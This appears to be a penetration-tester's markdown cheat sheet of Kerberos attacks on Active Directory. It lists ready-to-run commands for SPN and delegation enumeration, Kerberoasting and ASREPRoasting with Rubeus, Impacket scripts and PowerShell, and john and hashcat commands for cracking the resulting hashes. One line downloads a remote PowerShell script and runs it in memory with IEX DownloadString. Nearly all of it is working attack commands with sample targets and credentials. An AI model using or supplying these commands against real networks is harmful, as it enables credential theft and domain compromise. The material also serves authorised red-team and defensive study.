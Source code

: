 # Kerberos Info Gathering
## Query SPNs
If you want to first only query registered SPNs to limit the noise, there are different methods.   
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   

Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Attacks
## Kerberoasting
From Windows against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
From Linux using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   
